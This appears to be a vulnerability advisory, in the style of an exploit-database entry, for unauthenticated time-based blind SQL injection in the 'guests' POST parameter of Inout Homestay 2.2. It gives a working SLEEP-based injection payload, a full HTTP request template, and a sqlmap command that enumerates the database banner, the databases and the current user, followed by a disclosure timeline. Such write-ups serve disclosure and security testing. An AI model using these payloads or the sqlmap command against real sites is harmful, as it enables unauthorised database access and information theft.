


# Information
```
Vulnerability Name  : Remote Blind SQL Injections in Inout Homestay
Product             : Inout Homestay
version             : 2.2
Date                : 2022-05-26
Vendor Site         : https://www.inoutscripts.com/products/inout-homestay/
POC                 : https://github.com/bigb0x/CVEs/blob/main/Inout-Homestay-2-2-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Inout Homestay Version 2.2 suffers from time-based blind SQL injection. POST parameters "guests" is vulnerable to SQL imjection attacks.This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

## Vulnerable Parameter: guests (POST)

<br>

Vulnerability: time-based blind SQL injection in guests (POST) parameter.
Vulnerabile file: index.php
<br>

### Payload
```sql
address=3137 Laguna Street&guests=1' AND (SELECT 1769 FROM (SELECT(SLEEP(5)))XPZb) AND
'ADfU'='ADfU&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San Francisco&searchstate=NY
```
<br>

### HTTP Post Request
```sql
POST /index.php?page=search/rentals HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://vlun-host.com/
Cookie: currencyid=10; currencycode=BYR; language=2; io_lang_code=es
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 189
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: vlun-host.com
Connection: Keep-alive
address=3&guests=-1 [inject_sql_here]&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San%20Francisco&searchstate=NY
```
<br>

### POC: sqlmap command:
```sql
python sqlmap.py -r homestay.txt  -p guests --dbms=MySQL --banner --random-agent --current-db --dbs --current-user
```
<br>

### output:

<br>

<br>

<br>


## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-22: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed[at]gmail.com

```
